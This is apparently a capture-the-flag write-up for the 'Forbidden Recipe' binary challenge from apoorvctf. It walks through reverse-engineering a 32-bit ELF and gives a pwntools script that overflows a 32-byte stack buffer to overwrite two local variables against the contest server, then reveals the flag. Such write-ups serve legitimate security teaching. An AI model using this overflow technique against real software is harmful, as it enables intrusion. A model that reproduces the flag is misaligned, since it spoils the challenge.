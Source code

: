 # !Kogarashi Café - The Forbidden Recipe  

**Category:** Binary Exploitation 

A final challenge that involves exploiting a stack-based buffer overflow to manipulate local variables and extract the flag.  

---

### Challenge  

**Provided File:** `forbidden_recipe`  

---

## Overview  

1. **Analyzing the Binary**  
   - Use `file forbidden_recipe` to determine the binary type:
     ```sh
     forbidden_recipe: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=c1033e4a4b053363f711f388f116277a1cbde252, not stripped
     ```
   - Run `strings forbidden_recipe` to find readable text inside:
     ```sh
     Barista: 'Ah... I see you've returned for the special blend.'
     Barista: 'The secret recipe... lost?
     ```
   - Disassemble the binary using `objdump`:
     ```sh
     objdump -d forbidden_recipe > disassembly.txt
     ```
   - Load the binary in **Ghidra** or **Binary Ninja** to reverse-engineer its logic.  

2. **Identifying the Vulnerability**  
   - The binary has a **stack-based buffer overflow** vulnerability.
   - By overflowing the buffer, we can overwrite **local variables** (`local_14` and `local_10`) with specific values.
   - This allows us to manipulate program execution and extract the flag.  

---

## Steps to Exploit  

1. **Check Binary Properties**  
   ```sh
   file forbidden_recipe  
   checksec --file=forbidden_recipe  
   strings forbidden_recipe  
   ```

2. **Reverse Engineer the Binary**  
   - Load in **Ghidra** or **Binary Ninja** to analyze the functions.
   - Identify the buffer size and which values need to be overwritten.

3. **Exploit Buffer Overflow**  
   - Send a payload that fills the buffer (32 bytes) and precisely overwrites two critical local variables.
   - Set `local_14` to `0xdecafbad` and `local_10` to `0xc0ff33` to trigger the correct execution path.  

---

## Exploit Script  

```python
from pwn import *

# Connection details
HOST = "chals1.apoorvctf.xyz"
PORT = 3002

# Establish remote connection
conn = remote(HOST, PORT)

# Wait for the prompt (adjust as needed)
conn.recvuntil(b"what will it be this time?'\n")

# Construct the payload:
# 32 bytes to fill the buffer, then:
# p32(0xdecafbad) -> overwrites local_14
# p32(0xc0ff33)  -> overwrites local_10
payload = b"A" * 32
payload += p32(0xdecafbad)  # Overwrite local_14
payload += p32(0xc0ff33)    # Overwrite local_10

# Send the payload
conn.sendline(payload)

# Receive and print the response (the flag should be in the output)
response = conn.recvall().decode()
print(response)

conn.close()
```

---

## Extracted Flag  

```
apoorvctf{d3caf_is_bad_f0r_0verfl0ws}
```

